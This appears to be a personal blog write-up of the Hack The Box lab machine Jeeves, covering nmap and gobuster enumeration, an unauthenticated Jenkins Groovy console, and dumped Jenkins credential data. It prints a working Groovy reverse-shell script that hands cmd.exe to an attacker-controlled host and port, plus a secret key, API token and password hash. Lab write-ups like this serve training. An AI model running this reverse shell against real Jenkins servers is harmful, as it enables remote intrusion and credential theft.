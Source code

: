 ```yaml
---
layout: post
title:  "Write Up: Hack The Box - Jeeves"
date:   2024-08-14 12:47:39 -0400
categories: oscp windows priv-esc tcm-security course
---
```


10.10.10.63
me - 10.10.14.35

As always we kick off with an nmap scan which returns the following:

```
└─$ sudo nmap -sC -sV -p- -oA jeeves 10.10.10.63                                                                   
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-16 18:46 EDT
Nmap scan report for 10.10.10.63
Host is up (0.020s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-17T03:48:45
|_  start_date: 2024-08-17T03:41:27
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 4h59m02s, deviation: 0s, median: 4h59m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 210.52 seconds
```

Going to also kick off an autorecon scan now to do more thorough scans. Anywhooooo going to try and see if we cab;t get some sweet smb action going; I tried a couple basics to see if I can get any info but not able to do anonymous login so kinda limited at the moment, might be able to get into it later so putting a pin in it for now.

[screenshot]

Loading this bad boi up in the browser we get an askjeeves landing page:

[screenshot - jeeves landing]

but after trying a couple searches I keep getting this same exception back:

[screenshot - jeeves failing]

Opening up port 5000 in the browser returns an error page:

[screenshot - 5000 err]

So quickly running out of options from the nmap search, doing to run a dirsearch and some gobuster searches to see what other tasty tidbits we can turn up.

```
gobuster dir -u http://10.10.10.63/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 503]
/Index.html           (Status: 200) [Size: 503]
/error.html           (Status: 200) [Size: 50]
/INDEX.html           (Status: 200) [Size: 503]
/Error.html           (Status: 200) [Size: 50]

gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63:50000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.10.10.63:50000/askjeeves/]

```

Hitting http://10.10.10.63:50000/askjeeves brings up a jenkins page....lol. After doing some digging for a bit I was able to get to teh groovy script console without logging in and found one that I was able to use to get a reverse shell after some minor changes to work with windows:

```
String host="10.10.14.17";
int port=4444;
String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

another option - https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html






secret.key
```
58d05496da2496d09036d36c99b56f1e89cc662f3e65a4023de71de7e1df8afb
```






```
C:\Users\Administrator\.jenkins\users\admin>type config.xml
type config.xml
<?xml version='1.0' encoding='UTF-8'?>
<user>
  <fullName>admin</fullName>
  <properties>
    <jenkins.security.ApiTokenProperty>
      <apiToken>{AQAAABAAAAAwID3cR3pyZaEkaDPU25Z0S+nrU8+gDgB0JEWORJ5L1P2T+zXc/tSs2IVn1ugWLaui54D6yYki4vhXQtGhqUSeFw==}</apiToken>
    </jenkins.security.ApiTokenProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$QyIjgAFa7r3x8IMyqkeCluCB7ddvbR7wUn1GmFJNO2jQp2k8roehO</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1509762882255</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
```

